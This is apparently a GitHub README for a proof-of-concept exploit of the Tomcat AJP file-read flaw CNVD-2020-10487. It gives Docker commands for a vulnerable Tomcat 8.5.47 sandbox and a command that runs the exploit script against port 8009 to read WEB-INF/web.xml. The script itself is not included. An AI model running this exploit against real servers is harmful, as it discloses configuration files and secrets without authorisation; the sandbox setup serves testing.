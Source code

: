 # CNVD-2020-10487-Tomcat-Ajp-lfi
Tomcat-Ajp协议文件读取漏洞
![image](https://raw.githubusercontent.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/master/QQ截图20200220231832.png)


## Docker sandbox to test vulnerability of Tomcat8.5.47

	
	docker build tomcat8.5/. -t tomcat8cnvd
	docker run -p 8009:8009 -d tomcat8cnvd
	python CNVD-2020-10487-Tomcat-Ajp-lfi.py localhost -p 8009 -f WEB-INF/web.xml
	